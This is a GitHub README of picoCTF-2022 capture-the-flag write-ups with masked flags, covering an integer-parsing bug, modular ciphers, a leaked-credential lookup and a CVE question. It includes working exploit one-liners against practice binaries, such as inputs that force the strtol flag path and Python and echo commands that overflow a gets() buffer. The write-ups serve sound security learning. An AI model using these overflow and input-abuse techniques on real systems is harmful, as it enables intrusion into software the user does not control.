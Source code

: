 
# picoCTF-2022
### Hi there, and Welcome to my picoCTF-2022 progress and writeups

**Total Chalennges : 65**
✔️Solved: 51
❌Unsolved : 14 
(completed 72.5%)

**Team rank: 677 from 7794 (Top 8%)**

![image](https://user-images.githubusercontent.com/62214984/163713181-4492b90e-03a6-476b-a968-f44da82bb5ed.png)

## The provided here flags are not genuine PicoCTF flags

<details>
  <summary><h2> 1. basic-file-exploit | 100 points ✔️ </h2></summary>
  <h3>Description:</h3>
	The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it! <br/>
	<s>Connect to the program with netcat:</s><br/> 
	<s>$ nc saturn.picoctf.net 49000</s><br/>
	"<i>Use <a href=https://github.com/LogicBypass/CTF-s/raw/main/picoCTF-2022/1.basic-file-exploit/1.basic-file-exploit.out><code>1.basic-file-exploit.out</code></a> instead</i>"<br/>
	The program's source code with the flag redacted can be downloaded <a href=https://github.com/LogicBypass/CTF-s/blob/main/picoCTF-2022/1.basic-file-exploit/1.basic-file-exploit.c>here.</a> <br/>
	<br/>
  
  > Hint: Try passing in things the program doesn't expect. Like a string instead of a number.
  ----
  <h3>Reconnaissance:</h3>
	Download the files: <code>wget link-to-file</code><br/> 
	Make it exacutable:<code>chmod +x *</code><br/>
	Open the program's source code file and analyze the flag retrieving function:<br/>
<pre>
if ((entry_number = strtol(entry, NULL, 10)) == 0) {
	puts(flag);
	fseek(stdin, 0, SEEK_END);
	exit(0);
}
</pre>
	<br/>
	Now we need to manipulate the input to get the function result == 0 </br>
  <hr>
  <h3>Exploitation:</h3>
	At the first run, let's try to use it as intended</br>
<pre>
└─$ ./1.basic-file-exploit.out
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
Please enter your data:
Logic Bypass
Please enter the length of your data:
12
Your entry number is: 1
Write successful, would you like to do anything else?
2
Please enter the entry number of your data:
1
Logic Bypass
Read successful, would you like to do anything else?
Timed out waiting for user input. Press Ctrl-C to disconnect
Goodbye!
</pre>
<br/>
	Now let's try to insert "0" into different fields:<br/>
	First try:
<pre>
└─$ ./1.basic-file-exploit.out
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
Please enter your data:
0
Please enter the length of your data:
0
Please put in a valid length		#Not allowed to insert 0
Please enter the length of your data:
1
Your entry number is: 1
Write successful, would you like to do anything else?
2                                                      #Read our entry
Please enter the entry number of your data:
1
0
Read successful, would you like to do anything else?

Timed out waiting for user input. Press Ctrl-C to disconnect
Goodbye!
</pre>
<br/>
	Nothing interesting</br>
	Second try, the valid input but try to read the "0" entry number
<pre>
└─$ ./1.basic-file-exploit.out
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
Please enter your data:
Logic Bypass
Please enter the length of your data:
12
Your entry number is: 1
Write successful, would you like to do anything else?
2                                                      #Switch to Read entry
Please enter the entry number of your data:
0
picoCTF{#########################}
</pre>
Hooray! We have a flag!
<br/>
We also can get the flag by "Trying passing strings instead of number" as mentioned in "Hint"<br/>
This works because of "strtol() function error" that says: In case no conversion was performed (no digits seen, and 0 returned)
<pre>
└─$ ./1.basic-file-exploit.out
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
Please enter your data:
Logic Bypass
Please enter the length of your data:
12
Your entry number is: 1
Write successful, would you like to do anything else?
2                                                      #Switch to Read entry
Please enter the entry number of your data:
A
picoCTF{#########################}
</pre>
Hooray! We have a flag!
<hr/>
</details>

---

<details>
  <summary><h2> 2. basic-mod1 | 100 points ✔️ </h2></summary>
  <h3>Description:</h3>
	We found this weird message being passed around on the servers, we think we have a working decryption scheme.<br/>
	<br/>
	Message:<br/> 
	<i> 202 137 390 235 114 369 198 110 350 396 390 383 225 258 38 291 75 324 401 142 288 397 </i><br/>
	<br/>
	Take each number mod 37 and map it to the following character set:<br/>
	0-25 is the alphabet (uppercase)<br/>
	26-35 are the decimal digits<br/>
	36 is an underscore<br/>
	Wrap your decrypted message in the picoCTF flag format<br/>
	<br/>
  
  > Hint1: Do you know what mod 37 means?
	
  > Hint2: mod 37 means modulo 37. It gives the remainder of a number after being divided by 37.

  ----
  <h3>Reconnaissance and Exploitation:</h3>
	Go to <a href="https://www.dcode.fr/cipher-identifier">Chipher Identifier</a> to find a Modulo Cipher decoder.<br/>
	Open <a href="https://www.dcode.fr/modulo-cipher">Modulo Cipher</a> from results, change modulo nr to 37 and insert the Message.<br/>
	Take the output and using <a href="https://www.dcode.fr/substitution-cipher">Substitution Cipher</a> and map it to the character set from the description:<br/>
	<pre>
	0-25 is the alphabet (uppercase).
	26-35 are the decimal digits.
	36 is an underscore.</pre>
	Wrap your decrypted message in the picoCTF flag format<br/>

	picoCTF{R****_N_*0***_********}
Hooray! We have a flag!
<hr/>
</details>

---

<details>
  <summary><h2> 3. basic-mod2 | 100 points ✔️ </h2></summary>
  <h3>Description:</h3>
  A new modular challenge!<br/>
  Message:<br/> 
  <i> 186 249 356 395 303 337 190 393 146 174 446 127 385 400 420 226 76 294 144 90 291 445 137 </i><br/>
	<br/>
  Take each number mod 41 and find the modular inverse for the result. Then map to the following character set:<br/>
  1-26 are the alphabet<br/>
  27-36 are the decimal digits<br/>
  37 is an underscore<br/>
	<br/>
  Wrap your decrypted message in the picoCTF flag format (i.e. picoCTF{decrypted_message})<br/>
  <br/>
    
  > Hint1: Do you know what the modular inverse is?<br/>
  > Hint2: The inverse modulo z of x is the number, y that when multiplied by x is 1 modulo z.<br/>
  > Hint3: It's recommended to use a tool to find the modular inverses.<br/>


  ----
  <h3>Exploitation:</h3>
  
  Go to <a href="https://www.dcode.fr/cipher-identifier">Chipher Identifier</a> to find a Modular Inverse decoder.<br/>
  Open <a href="https://www.dcode.fr/modular-inverse">Modular Inverse</a> from results, change modulo nr to 41 and insert the Message one by one.<br/>
  Take the output and using <a href="https://www.dcode.fr/substitution-cipher">Substitution Cipher</a> and map it to the character set from the description:<br/>

    <pre>
    0-25 is the alphabet (uppercase).
    26-35 are the decimal digits.
    36 is an underscore.</pre>
  Wrap your decrypted message in the picoCTF flag format<br/>

    picoCTF{1*V3R*3L*_H4*D_B7*B9*79}
Hooray! We have a flag!
<hr/>
</details>

---

<details>
  <summary><h2> 4. buffer overflow 0 | 100 points ✔️ </h2></summary>
  <h3>Description:</h3>
  Smash the stack<br/>
  Let's start off simple, can you overflow the correct buffer?<br/> 
	<br/>
  The program is available <a href=https://github.com/LogicBypass/CTF-s/raw/main/picoCTF-2022/4.buffer-overflow-0/vuln>here.</a> <br/>
  You can view source <a href=https://github.com/LogicBypass/CTF-s/raw/main/picoCTF-2022/4.buffer-overflow-0/vuln.c>here.</a> .<br/>
<br/>

    
  > Hint1: How can you trigger the flag to print?<br/>
  > Hint2: If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.<br/>
  > Hint3: Run <code>man gets</code> and read the BUGS section. How many characters can the program really read?<br/>


  ----
  <h3>Reconnaissance:</h3>
  Download the files: <code>wget link-to-file</code><br/> 
  Make it exacutable:<code>chmod +x *</code><br/>
  Open the program's source code file and analyze it<br/>
  Run <code>man gets</code> and read the BUGS section.<br/>


  <h3>Exploitation:</h3>
  Option 1:<br/>
    <code>python -c 'from pwn import *;print(cyclic(60))' | ./vuln </code><br/>
  Option 2:<br/>
    <code>python -c 'print ("a"*100)' | ./vuln </code><br/>
  Option 3:<br/>
  <i>Python not always works as buffer overflow input, so it's a good habbit to have an alternative:</i><br/>
    <code>(echo -en "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n"; cat) | ./vuln </code><br/>
<br/>
  <code>picoCTF{************}</code><br/>
Hooray! We have a flag!<br/>
<hr/>
</details>

---

<details>
  <summary><h2> 5.credstuff ✔️ </h2></summary>
  <h3>Description:</h3>
  	We found a leak of a blackmarket website's login credentials. Can you find the password of the user <code>cultiris</code> and successfully decrypt it?
	<br/>
	Download the leak  <a href=https://artifacts.picoctf.net/c/534/leak.tar>here.</a> <br/>
	<br/>
    The first user in <code>usernames.txt</code> corresponds to the first password in <code>passwords.txt</code>. The second user corresponds to the second password, and so on.<br/>
    <br/>
    
  
  > Hint: Maybe other passwords will have hints about the leak?


  ----
  <h3>Reconnaissance & Exploitation:</h3>
	Download the file: <code>wget link-to-file</code><br/> 
	Extract it :<code>tar -xf file</code><br/>
	Search for <code>cultiris</code> and it's line number in <code>usernames.txt</code><br/>
    <br/>
	<pre>
	cat usernames.txt | grep "cultiris" -n
	Output:
	>>> 378:cultiris
	</pre>
	<br/>
	Now we need to search for this line in <code>passwords.txt</code> file. </br>
	<pre>
    sed '378!d' passwords.txt
	Output:
	>>> cvpbPGS{P7e1S_54I35_71Z3}
	</pre>
	<br/>
    Decode with ROT13 and get the flag:
    <code>picoCTF{C*r**_5***5_7*M*}</code>
 <hr/>

</details>

---

<details>
  <summary><h2> 6. CVE-XXXX-XXXX ✔️ </h2></summary>
  <h3>Description:</h3>
	Enter the CVE of the vulnerability as the flag with the correct flag format:
    <code>picoCTF{CVE-XXXX-XXXXX}</code> replacing XXXX-XXXXX with the numbers for the matching vulnerability.
	<br/>
	The CVE we're looking for is the first recorded remote code execution (RCE) vulnerability in 2021 in the Windows Print Spooler Service, which is available across desktop and server versions of Windows operating systems. The service is used to manage printers and print servers.<br/>
	<br/>
      
  > Hint: We're not looking for the Local Spooler vulnerability in 2021...


  ----
  <h3>Reconnaissance & Exploitation:</h3>
	Just search it on Google!
<hr/>
 
</details>

---


 Checkmarks:
✔️
❌


